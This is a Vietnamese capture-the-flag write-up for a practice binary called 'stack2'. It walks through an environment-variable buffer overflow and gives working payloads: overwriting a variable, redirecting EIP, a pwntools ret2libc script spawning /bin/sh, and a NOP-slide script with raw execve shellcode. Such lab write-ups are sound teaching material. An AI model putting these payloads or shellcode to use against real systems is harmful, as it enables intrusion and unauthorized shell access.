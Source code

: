 # stack2

## description

Chạy thử chương trình thì báo lỗi vì chưa cài đặt biến môi trường tên `GREENIE`. Cùng ngó thử qua hàm main nhé.
![main1](main1.png)

![main2](main2.png)

Đọc qua ta thấy ngay lấy giá trị của biến môi trường `GREENIE(0x80485e0)` gán vào biến `variable([esp+0x5c])`. Sau đó, dùng strcpy để đưa giá trị từ `variable` tức là `GREENIE` vào `buf([esp+0x18])`. Cuối cùng so sánh giá trị ở biến `modified([esp+0x58])` với 0xd0a0d0a. Vậy ta cần tìm cách để cho `modified = 0xd0a0d0a`.

## Solution

### Buffer overflow

biến `modified` ở sau `buf`, nên phần `padding: 0x58-0x18 = 0x40`. bây giờ mình tạo một `environment variable` có tên là `GREENIE` nằm trong cùng đường dẫn với source. Như sau:

`export GREENIE= $(python -c ‘print “A”*64 + “\x0a\x0d\x0a\x0d”')`

![run](run.png)

### Ret2ret

Cũng tương tự, bài này có thể giải quyết bằng cách control EIP để jump về nhánh if chúng ta cần. Dùng cyclic và gdb pwndbg tìm được padding size = 84 bytes.
Payload: `export GREENIE=$(python -c 'print "a"*84+"\xef\x84\x04\x08"')`

![ret2ret](ret2ret.png)

## Spawn shell

vì vẫn dùng chung libc nên system address,&"/bin/sh" ko đổi, thay đổi script một chút là được.

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = b"a"*84   #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)
#run process, export GREENIE = payload
p = process(['./stack2'], env={'GREENIE': payload})
p.interactive()
```

### inject shellcode

Bài này vấn đề lớn nhất chắc là tìm được offset phù hợp và nop_slide size. Sau một hồi thử thay vài số thì mình đã tìm được.

```python
#!/usr/bin/python3
from pwn import *

padding = b"a"*84
eip = p32(0xffffd2c0+1000) # esp addr + offset nop_slide

nop_slide = b"\x90"*2000

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
#run process, export GREENIE = payload
payload = padding + eip + nop_slide + shellcode
f = open("env", "wb")
f.write(payload)
p = process(['./stack2'], env={'GREENIE': payload})
p.interactive()
```